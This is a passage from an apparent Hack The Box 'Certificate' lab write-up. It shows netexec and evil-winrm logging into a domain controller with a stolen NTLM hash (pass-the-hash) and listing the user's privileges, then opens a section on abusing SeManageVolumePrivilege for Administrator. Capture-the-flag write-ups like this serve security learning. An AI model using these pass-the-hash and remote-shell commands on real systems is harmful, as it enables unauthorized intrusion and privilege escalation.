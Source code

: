 Verified WinRM access to `ryan.k` using the exported hash:

```
┌──(kali㉿kali)-[~/HTB/Certificate]
└─$ netexec winrm 10.10.11.71 -u ryan.k -H b1bc3d70e70f4f36b1509a65ae1a2ae6
WINRM       10.10.11.71     5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:certificate.htb)
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from this module in 48.0.0.
  arc4 = algorithms.ARC4(self._key)
WINRM       10.10.11.71     5985   DC01             [+] certificate.htb\ryan.k:b1bc3d70e70f4f36b1509a65ae1a2ae6 (Pwn3d!)
WINRM       10.10.11.71     5985   DC01             [-] certificate.htb\ryan.k:b1bc3d70e70f4f36b1509a65ae1a2ae6 zip() argument 2 is longer than argument 1
```

## SeManageVolumePrivilege Abuse -> Administrator

After logging in, we can see this user has an interesting privilege: `SeManageVolumePrivilege`.


```
┌──(kali㉿kali)-[~/HTB-machine/certificate/try2/Krb5RoastParser]
└─$ evil-winrm -i 10.10.11.71 -u ryan.k -H b1bc3d70e70f4f36b1509a65ae1a2ae6
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Ryan.K\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                      State
============================= ================================ =======
SeMachineAccountPrivilege     Add workstations to domain       Enabled
SeChangeNotifyPrivilege       Bypass traverse checking         Enabled
SeManageVolumePrivilege       Perform volume maintenance tasks Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set   Enabled
*Evil-WinRM* PS C:\Users\Ryan.K\Documents> 

```


- [Microsoft Documentation – SeManageVolumePrivilege](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-10/security/threat-protection/security-policy-settings/perform-volume-maintenance-tasks)
